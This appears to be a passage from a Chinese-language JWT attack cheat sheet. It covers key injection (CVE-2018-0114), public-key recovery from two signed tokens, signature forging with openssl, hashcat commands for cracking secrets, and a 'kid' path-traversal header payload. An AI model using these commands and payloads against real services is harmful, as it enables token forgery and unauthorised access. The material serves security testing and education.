 ### JWT签名 - 密钥注入攻击 (CVE-2018-0114)

某些JWT库容易受到密钥注入攻击，攻击者可以通过在JWT头部注入自己的公钥来伪造令牌。

### JWT签名 - 从已签名的JWT中恢复公钥

如果您有两个使用相同RSA私钥签名的JWT，您可能能够恢复公钥。

```bash
$ docker run -it ttervoort/jws2pubkey JWS1 JWS2
$ docker run -it ttervoort/jws2pubkey "$(cat sample-jws/sample1.txt)" "$(cat sample-jws/sample2.txt)" | tee pubkey.jwk
Computing public key. This may take a minute...
{"kty": "RSA", "n": "sEFRQzskiSOrUYiaWAPUMF66YOxWymrbf6PQqnCdnUla8PwI4KDVJ2XgNGg9XOdc-jRICmpsLVBqW4bag8eIh35PClTwYiHzV5cbyW6W5hXp747DQWan5lIzoXAmfe3Ydw65cXnanjAxz8vqgOZP2ptacwxyUPKqvM4ehyaapqxkBbSmhba6160PEMAr4d1xtRJx6jCYwQRBBvZIRRXlLe9hrohkblSrih8MdvHWYyd40khrPU9B2G_PHZecifKiMcXrv7IDaXH-H_NbS7jT5eoNb9xG8K_j7Hc9mFHI7IED71CNkg9RlxuHwELZ6q-9zzyCCcS426SfvTCjnX0hrQ", "e": "AQAB"}
```

## JWT密钥

### 使用密钥编码和解码JWT

```bash
# 使用密钥编码JWT
echo -n '{"alg":"HS256","typ":"JWT"}' | base64 | tr '/+' '_-' | tr -d '='
echo -n '{"sub":"1234567890","name":"John Doe","iat":1516239022}' | base64 | tr '/+' '_-' | tr -d '='
echo -n -e '{"typ":"JWT","alg":"HS256"}.{"sub":"1234567890","name":"John Doe","iat":1516239022}' | openssl dgst -sha256 -hmac "your-256-bit-secret" -binary | base64 | tr '/+' '_-' | tr -d '='

# 使用密钥解码JWT
jwt decode JWT_HERE
jwt decode JWT_HERE --secret your-256-bit-secret
```

### 破解JWT密钥

使用hashcat破解JWT密钥：

- 字典攻击：`hashcat -a 0 -m 16500 jwt.txt passlist.txt`
- 基于规则的攻击：`hashcat -a 0 -m 16500 jwt.txt passlist.txt -r rules/best64.rule`
- 暴力破解攻击：`hashcat -a 3 -m 16500 jwt.txt ?u?l?l?l?l?l?l?l -i --increment-min=6`

## JWT声明

### JWT kid声明滥用

`kid`(密钥ID)是JWT头部中的一个可选声明，用于指定用于验证令牌的密钥。如果应用程序未正确验证`kid`参数，攻击者可能会利用此漏洞来注入自己的密钥。

```json
{
  "alg": "HS256",
  "typ": "JWT",
  "kid": "../../../../dev/null"
}
```

